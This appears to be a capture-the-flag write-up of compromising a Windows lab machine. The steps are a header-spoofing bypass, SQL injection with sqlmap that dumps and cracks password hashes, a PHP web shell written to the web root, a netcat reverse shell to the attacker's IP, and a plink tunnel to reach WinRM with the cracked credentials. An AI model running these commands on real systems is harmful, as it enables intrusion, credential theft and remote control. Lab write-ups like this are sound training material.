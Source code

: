 There are 3 open ports:

![Screenshot](images/Screenshot_1.png)


We will fuzz the web server:

![Screenshot](images/Screenshot_2.png)

![Screenshot](images/Screenshot_3.png)

Accessing the admin page states we are not going through a proxy:

![Screenshot](images/Screenshot_4.png)

So we can try to use the X-Forwarded-Host header:

![Screenshot](images/Screenshot_5.png)

We can see the internal IP is revealed in the index page code:

![Screenshot](images/Screenshot_6.png)

And changing to that IP:

![Screenshot](images/Screenshot_7.png)

And so, we can access the admin page:

![Screenshot](images/Screenshot_8.png)

We test the search capability for SQL injections:

![Screenshot](images/Screenshot_9.png)

It produces this error:

![Screenshot](images/Screenshot_10.png)

Let us capture a request using Burp:

![Screenshot](images/Screenshot_11.png)

And test it using the “-r” option of sqlmap:

```
sqlmap --level 5 --risk 3 --dbms mysql -p "productName" -r req.txt
```

![Screenshot](images/Screenshot_12.png)

Note for the future: The request must be similar to this, with only one space between the headers and the data sent:

![Screenshot](images/Screenshot_13.png)

It returns some hashes and even cracks one of them:

![Screenshot](images/Screenshot_14.png)

And we can crack another in Crackstation:

![Screenshot](images/Screenshot_15.png)

So the hashes are:

- hector - *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D (l33th4x0rhector)

- manager -  *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA (l3tm3!n)

- root - *0A4A5CAD344718DC418035A1F4D292BA603134D8 (???)


Then we will grab a PHP shell:

![Screenshot](images/Screenshot_16.png)

And we will upload the file:

```
sqlmap --dbms mysql -p "productName" --file-write rrrshell.php --file-dest "C:\inetpub\wwwroot\rrrshell.php" -r req.txt
```

![Screenshot](images/Screenshot_17.png)


We get remote code execution:

![Screenshot](images/Screenshot_18.png)

Reverse shell:

```
\\10.10.15.19\RIC\nc.exe 10.10.15.19 8888 -e cmd
```

![Screenshot](images/Screenshot_19.png)


![Screenshot](images/Screenshot_20.png)

We will list the services running, which include Winrm:

![Screenshot](images/Screenshot_21.png)


After unsuccessfully trying to execute a Meterpreter binary, I tried to use Plink (mi primerita vez):

```
plink.exe -R 5985:127.0.0.1:5985 10.10.15.19
```
![Screenshot](images/Screenshot_22.png)

We can see there is a new service in our Kali machine:

![Screenshot](images/Screenshot_23.png)

Now we can access as Hector and grab the user.txt flag:

```
./evil-winrm.rb -i 127.0.0.1 -u Hector -p "l33th4x0rhector"
```

![Screenshot](images/Screenshot_24.png)


![Screenshot](images/Screenshot_25.png)


And regarding the root flag... To be honest, I found it in a leak in pastebin D:

![dont sue me please!](https://media1.giphy.com/media/l2Je2rsN4y2iANLdC/giphy.gif?cid=ecf05e47730942c93d49001f72fd9dd5535faec4f26c0db3&rid=giphy.gif)

So this is just a half-writeup! It was a great box even though I could not find a way to escalate privileges. Sorry and see you next time!

![byeee](https://media0.giphy.com/media/l1J3CbFgn5o7DGRuE/giphy.gif?cid=ecf05e476d2c2b600e7300609c4b4a26347335ce9791a2f9&rid=giphy.gif)